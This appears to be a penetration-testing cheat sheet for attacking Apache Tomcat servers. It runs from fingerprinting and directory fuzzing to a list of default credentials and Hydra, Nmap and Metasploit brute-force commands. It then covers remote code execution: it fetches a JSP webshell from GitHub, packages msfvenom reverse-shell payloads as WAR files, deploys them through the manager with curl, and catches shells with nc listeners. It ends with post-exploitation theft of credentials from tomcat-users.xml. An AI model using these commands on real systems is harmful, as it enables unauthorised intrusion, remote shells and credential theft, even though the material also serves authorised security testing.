 ### **Introduction**

Apache Tomcat is an open-source Java servlet container and web server, it's a key target due to its role in hosting Java-based web applications, often presenting opportunities to exploit configuration flaws and known vulnerabilities.

### **Identifying Jenkins Version**

1.  Check version in documentation page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/docs/ | grep Tomcat`
2.  Obtain version from default error page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/nonexistentpage | grep -i tomcat`
3.  Obtain version using Nmap:  
    `nmap -p 8080 --script http-server-header [TOMCAT-DOMAIN]`
    

### **Directory Discovery**

1.  Directory Fuzzing with FFUF:  
    `ffuf -u https://[TOMCAT-DOMAIN]/FUZZ -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
2.  Directory Fuzzing with Gobuster:  
    `gobuster dir -u https://[TOMCAT-DOMAIN] -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
3.  Directory Fuzzing with Wfuzz:  
    `wfuzz -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt https://[TOMCAT-DOMAIN]/FUZZ`
    

### **Default Credentials**

1.  `admin`:`admin`
2.  `tomcat`:`tomcat`
3.  `admin`:
4.  `admin`:`s3cr3t`
5.  `tomcat`:`s3cr3t`
6.  `admin`:`tomcat`

### **Brute-Force Apache Tomcat Credentials**

1.  Credential Brute-Forcing with Metasploit:  
    `use auxiliary/scanner/http/tomcat_mgr_login`
2.  Credential Brute-Forcing with Hydra:  
    `hydra -L userlist.txt -P passlist.txt [TOMCAT-URL] http-post-form "/manager/html:username=^[USER]^&password=^[PASS]^&Login=Login:Invalid credentials" -t 10`
3.  Credential Brute-Forcing with Nmap:  
    `nmap -p 8080 --script http-brute --script-args http-brute.path=/manager/html,userdb=userlist.txt,passdb=passlist.txt [TOMCAT-URL]`

### **Remote Code Execution (RCE)**

1.  Download JSP shell using wget:  
    `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
2.  Package shell into WAR file  
    `jar -cvf MyShell.war *`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Access the Shell  
    `http://[TOMCAT-DOMAIN]:8080/myshell/cmd.jsp`
    

### **Reverse Shell Using Metasploit**

1.  Create war File  
    `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=9002 -f war > MyShell.war`
2.  List WAR contents.  
    `jar -ft MyShell.war`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Start Netcat to receive reverse shell  
    `nc -lnvp 9002`
5.  trigger reverse shell using curl  
    `curl http://[TOMCAT-DOMAIN]:8080/myshell/orkmagcvdm.jsp`

### **Using Metasploit**

1.  Start Metasploit Framework:  
    `msfconsole`
2.  Select the Tomcat RCE exploit module:  
    `msf> use exploit/multi/http/tomcat_mgr_upload`
3.  Create the WAR file:  
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=80 -f war -o shell.war`
4.  Upload the WAR file to the Tomcat server:  
    `curl --upload-file shell.war -u 'tomcat:password' "https://[TOMCAT-DOMAIN]/manager/text/deploy?path=/shell"`
5.  Starting a Listener on the Local Machine:  
    `sudo nc -lvnp 80`
6.  Accessing the Shell:  
    `https://[TOMCAT-DOMAIN]/shell`

### **Post Exploit**

1.  Find Tomcat credentials in tomcat-users.xml:  
    `find / -name tomcat-users.xml 2>/dev/null`
2.  Gather Tomcat credentials with Metasploit:  
    `msf> use post/multi/gather/tomcat_gather`  
    `msf> use post/windows/gather/enum_tomcat`